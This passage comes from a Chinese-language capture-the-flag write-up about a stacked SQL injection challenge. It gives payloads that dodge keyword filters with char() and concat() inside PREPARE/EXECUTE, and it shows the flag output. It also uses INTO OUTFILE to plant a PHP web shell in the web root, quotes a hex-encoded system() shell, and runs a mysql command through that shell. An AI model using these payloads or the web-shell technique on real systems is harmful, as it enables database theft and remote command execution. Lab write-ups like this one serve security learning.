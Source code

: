 ```javascript
array(1) {
  [0]=>
  string(42) "flag{52aec6f8-042b-4208-9e4e-7388542b3a88}"
}

```

**payload2：**使用变量

```sql
1';SET @sql=concat(char(115,101,108,101,99,116),'* from `1919810931114514`');PREPARE jwt from @sql;EXECUTE jwt;#
```

```javascript
array(1) {
  [0]=>
  string(42) "flag{52aec6f8-042b-4208-9e4e-7388542b3a88}"
}
```

**payload3：**只是用contact(),不使用char()

```sql
1';PREPARE jwt from concat('s','elect', ' * from `1919810931114514` ');EXECUTE jwt;#
```

```javascript
array(1) {
  [0]=>
  string(42) "flag{52aec6f8-042b-4208-9e4e-7388542b3a88}"
}
```

#### 方法三 利用命令执行Getflag

```sql
1';Set @sql=concat("s","elect '<?php @print_r(`$_GET[1]`);?>' into outfile '/var/www/html/1",char(46),"php'");PREPARE sqla from @sql;EXECUTE sqla;
```

 利用`char(46)`<==>`.`从而绕过关键词`.`过滤往 /var/www/html/ 目录里面写入一个 1.php文件 代码就是 

```php
<?php @print_r(`$_GET[1]`);?>
```

> Mysql into outfile语句，可以方便导出表格的数据。同样也可以生成某些文件。因此有些人会利用sql注入生成特定代码的文件，然后执行这些文件。将会造成严重的后果。Mysql into outfile 生成PHP文件 
>
> SELECT 0x3C3F7068702073797374656D28245F524551554553545B636D645D293B3F3E into outfile '/var/www/html/fuck.php'最后会在/var/www/html/路径下， 生成fuck.php文件这里不走寻常路，执行打算利用我们的shell查询flag（账号密码直接读取首页就可以看到）

```sql
/1.php?1=mysql -uroot -proot -e "use supersqli;select flag from \`1919810931114514\`;"
```



## 任务二 [HCTF 2018 WarmUp 1](https://buuoj.cn/challenges#[HCTF%202018]WarmUp)


[^1]: 此处 # 作用是注释 忽略 # 之后的语句 [参考资料](https://blog.csdn.net/github_36032947/article/details/78442189) 
[^2]: 这句话的逻辑 不是特别清楚 网上搜了很多 但是都是这一道题目的 没有讲具体的逻辑 目前推断是 能堆叠 防止你乱搞 所以才禁止了这些关键词 否则直接禁止了堆叠注入 就根本不用禁止了 而且此时是联合注入
[^3]: ../ 是跳转到上级目录